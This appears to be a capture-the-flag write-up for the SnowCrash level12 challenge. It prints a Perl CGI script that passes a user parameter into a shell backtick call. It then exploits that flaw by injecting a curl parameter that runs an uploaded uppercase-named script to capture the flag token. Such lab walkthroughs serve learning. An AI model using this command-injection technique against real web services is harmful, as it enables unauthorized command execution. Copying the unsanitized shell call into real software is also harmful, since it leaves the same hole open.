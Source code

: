 ```
level12@SnowCrash:~$ ls
level12.pl

level12@SnowCrash:~$ cat level12.pl 
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```

The script runs a webserver on localhost via the port 4646 and can take parameters x and y.

Let's verify it with curl:

```
level12@SnowCrash:~$ curl -I localhost:4646
HTTP/1.1 200 OK
Date: Tue, 22 Sep 2020 12:57:04 GMT
Server: Apache/2.2.22 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 2
Content-Type: text/html

```

At one point, the function t executes the parameter x when comparing it to /tmp/xd.

We can exploit that situation by putting a script as the parameter x that executes the command getflag and saves the result in /tmp/token.

```
scp -P 4242 SCRIPT level12@10.11.200.61:/tmp

level12@SnowCrash:~$ chmod 777 /tmp/SCRIPT
```

Since the function t will capitalize every charater of the parameter x before executing it, we create the SCRIPT already in capital letters.  
We specify to look for it in every directories with the symbol * because it's case-insensitive.

```
level12@SnowCrash:~$ curl localhost:4646?x='`/*/SCRIPT`'
..

level12@SnowCrash:~$ cat /tmp/token
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
